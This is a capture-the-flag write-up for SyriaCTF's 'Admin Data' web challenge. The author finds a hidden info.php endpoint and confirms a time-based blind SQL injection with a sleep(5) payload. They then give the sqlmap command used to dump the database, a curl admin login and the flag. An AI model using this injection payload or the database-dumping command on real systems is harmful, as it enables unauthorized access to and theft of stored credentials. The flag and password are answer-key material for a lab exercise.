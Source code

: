 # SyriaCTF – Admin Data

### not solved
* **Category:** Web Exploitation
* **Points:** 100

## Challenge

> only admin can get the flag, can you be one?
> http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/

## Solution 

The home page looks like a template with nothing suspicious so we go straight to login.php
we try logging in with username:admin , password:admin to see what happens but nothing is really interesting yet.
we throw the challenge root into dirbuster with the ```dirbuster/directory-list-2.3-medium.txt``` as a wordlist to enumerate files:
![scree](dirbuster1.png)

and we find this nice file tree after some time

![scree](dirbuster2.png)

two interesting files appear here (profile.php and settings.php), we try to open them in browser but we are directed to the login page so we try to get them with curl and .. it works!
we find the following code in the html content of settings.php 

`<link rel="stylesheet" type="text/javascript" href="270cba471dcab9eb51c321da8d1953c6/newFolder/f!le.js">`

we check that f!le:
```
// for developer: remember to change the function to GET request

function getInfo(value){

	if (value == null){

		alert("Please add a value here.");

	}

}

function nothing(url = "270cba471dcab9eb51c321da8d1953c6/newFolder/info.php", data, success) {

    var params = typeof data == 'string' ? data : Object.keys(data).map(
            function(k){ return encodeURIComponent(k) + '=' + encodeURIComponent(data[k]) }
        ).join('&');

    var xhr = window.XMLHttpRequest ? new XMLHttpRequest() : new ActiveXObject("Microsoft.XMLHTTP");
    xhr.open('POST', url);
    xhr.onreadystatechange = function() {
        if (xhr.readyState>3 && xhr.status==200) { success(xhr.responseText); }
    };
    xhr.setRequestHeader('X-Requested-With', 'XMLHttpRequest');
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send(params);
    return xhr;
}

// example request
// nothing('http://foo.bar/', 'uname=User', function(data){ console.log(data); });
```
so we find what seems to be an api endpoint `270cba471dcab9eb51c321da8d1953c6/newFolder/info.php` 
and a comment saying `remember to change the function to GET request`
so we get that page with GET parameter `uname=User` we get a result `Exist`, then we try `uname=admin` and we get the same result, 
fast forward ... we try `uname=uuu'or sleep(5) --' and here we have it! response was delayed 5 second so it looks like we can trigger a time based blind sql injection
```
$ ./sqlmap.py -u http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/270cba471dcab9eb51c321da8d1953c6/newFolder/info.php?uname=User --dump --level=3 --risk=2
```
it found that the `uname` parameter is vulnerable. it takes some time to retrieve the whole database :(
![scree](sqlmap.png)

so we have the admin password, let's go login.
we login as admin
```
$ curl -XPOST http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/login.php -d"username=admin&password=G3t_in_Admin_Z0ne" -i
```
we find an interesting header in the HTTP response `Location: getflag.php`
so let's get it!
```
$ curl http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/getflag.php

<script>alert('it\'s not easy, try hard.');</script>FLAG{5ql_!njection_L0L}
```
and there we have it!!

flag: `FLAG{5ql_!njection_L0L}`

(not) solved by t0mcr8se (while sliding over cars)
